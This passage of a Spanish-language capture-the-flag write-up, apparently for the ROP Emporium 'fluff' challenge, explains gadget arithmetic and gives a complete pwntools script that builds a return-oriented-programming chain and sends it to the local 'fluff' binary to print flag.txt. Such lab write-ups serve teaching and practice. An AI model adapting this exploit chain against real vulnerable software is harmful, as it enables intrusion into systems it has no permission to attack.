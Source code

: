 ```
0x0000000000400610 : mov eax, 0 ; pop rbp ; ret
```

En lugar de poner *eax* a 0, podemos directamente restar en *rbx*. La cosa es *qué* valor, empezamos restando *rax* a *rbx*, después, restamos el valor de *rbx* a *rax*. Hay que tener en cuenta que restar a *rbx* afecta al valor que popeamos en *rcx*.

El segundo script sería:

```python
from pwn import *


offset = b'A'*40
subtract = 0x3ef2

xlatb_ret = p64(0x400628)
poprdx_rcx_addrcx_bextr_ret = p64(0x40062a)
stosrdi_ret = p64(0x400639)
poprdi_ret = p64(0x4006a3)
moveax0_poprbp_ret = p64(0x400610)
ret = p64(0x400295)

addr_flag = ['0x4003c4', '0x4003c5' , '0x4003d6', '0x4003cf', '0x40024e', '0x400192', '0x400246', '0x400192']
addr_str = 0x601028
print_file = p64(0x400510)

payload = offset 

flag_str = b"flag.txt"

for i in range(len(addr_flag)):
    if(i == 0):
        sub_rax = 0xb
    if(i != 0):
        sub_rax = flag_str[i - 1]
    payload += poprdx_rcx_addrcx_bextr_ret
    payload += p64(0x4000)                                              #take 8 bytes
    payload += p64(int(addr_flag[i], 16) - subtract - sub_rax)          # take correct value rcx: the address contain char in "flag.txt"
    payload += xlatb_ret                                                #take the one byte at the address which stores in rbx to al 
    payload += poprdi_ret
    payload += p64(addr_str + i)
    payload += stosrdi_ret
    
payload += poprdi_ret
payload += p64(addr_str)
payload += ret
payload += print_file

with open("debug", "wb") as binary_file:
    binary_file.write(payload)
    
r = process('./fluff')
r.recvuntil(b'> ')
r.sendline(payload)
r.interactive()
```
